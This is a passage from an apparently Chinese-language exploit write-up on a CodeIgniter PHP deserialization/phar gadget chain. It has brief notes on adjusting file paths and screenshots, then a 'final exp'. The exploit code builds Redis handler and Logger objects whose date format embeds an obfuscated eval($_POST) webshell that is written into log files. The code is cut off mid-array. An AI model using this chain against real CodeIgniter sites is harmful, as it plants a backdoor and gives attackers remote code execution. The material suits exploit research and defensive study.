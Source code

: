 触发

[![](https://p4.ssl.qhimg.com/t018c90bf643e8a36ed.png)](https://p4.ssl.qhimg.com/t018c90bf643e8a36ed.png)

发现这里写子目录好像不太行，给他改成绝对路径，因为本地测试和phar进入还是有点不一样的

[![](https://p3.ssl.qhimg.com/t0103e07ee61ea3bf92.png)](https://p3.ssl.qhimg.com/t0103e07ee61ea3bf92.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016a6bfdea03ae42fa.png)

最终exp

```
&lt;?php

namespace CodeIgniter\Session\Handlers`{`

    class RedisHandler`{`
        protected $redis;
        protected $logger;

        public function __construct($logger,$redis)
        `{`
            $this-&gt;logger=$logger;
            $this-&gt;redis = $redis;
        `}`
    `}`
`}`

namespace CodeIgniter\Cache\Handlers`{`
    class RedisHandler`{`
        protected $redis;
        public function __construct($redis)
        `{`
            $this-&gt;redis=$redis;
        `}`
    `}`
`}`

namespace CodeIgniter\Log`{`
    class Logger`{`
        protected $logLevels = [
            'emergency' =&gt; 1,
            'alert'     =&gt; 2,
            'critical'  =&gt; 3,
            'error'     =&gt; 4,
            'warning'   =&gt; 5,
            'notice'    =&gt; 6,
            'info'      =&gt; 7,
            'debug'     =&gt; 8,
        ];
        protected $loggableLevels = ['critical', 'alert', 'emergency', 'debug', 'error', 'info', 'notice', 'warning'];
        protected $filePermissions = 0644;
        protected $dateFormat = '&lt;?p\\hp \\e\\v\\a\\l($_\\P\\O\\S\\T["\\a"]);?&gt;Y-m-d H:i:s';
        protected $fileExt;
        protected $handlers = [];
        protected $handlerConfig = [
            'CodeIgniter\Log\Handlers\FileHandler'=&gt;[
                'handles' =&gt; ['critical', 'alert', 'emergency', 'debug', 'error', 'info', 'notice', 'warning'],
```